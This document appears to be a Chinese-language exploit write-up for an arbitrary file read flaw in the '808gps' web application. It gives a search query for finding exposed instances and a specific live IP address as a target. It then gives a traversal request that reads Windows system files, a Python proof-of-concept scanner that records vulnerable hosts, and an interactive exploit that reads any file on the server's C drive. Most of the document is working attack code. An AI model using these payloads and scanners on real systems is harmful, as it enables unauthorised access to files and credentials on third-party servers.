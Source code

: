 ## 一、资产搜索

```
body="./open/webApi.html"||body="/808gps/"
```

## 二、网站测试

```
http://95.46.1.27
```

## 三、验证漏洞

```
/808gps/logger/downloadLogger.action?fileName=C://Windows//win.ini
```

![image-20240908201752290](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908201752290.png)

## 四、POC

```
def poc(target):
    payload = "/808gps/logger/downloadLogger.action?fileName=C://Windows//win.ini"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "fonts" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    print(f"该网站[+]{target}存在任意文件读取漏洞")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请重试")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    payload = "/808gps/logger/downloadLogger.action?fileName=C:"
    while True:
        cmd = input("请输入要查看的文件，当前目录C盘,从//开始(q退出)\n>>>>>>>>>>>>>>")
        if cmd == 'q':
            exit()
        res1 = requests.get(url=target, verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(target + payload + cmd, verify=False,timeout=5)
            if res2.text == '':
                print("该文件不存在，请重新输入！！")
            else:
                print(res2.text)
```

## 六、测试结果

![image-20240908201837664](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908201837664.png)

![image-20240908202149791](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908202149791.png)

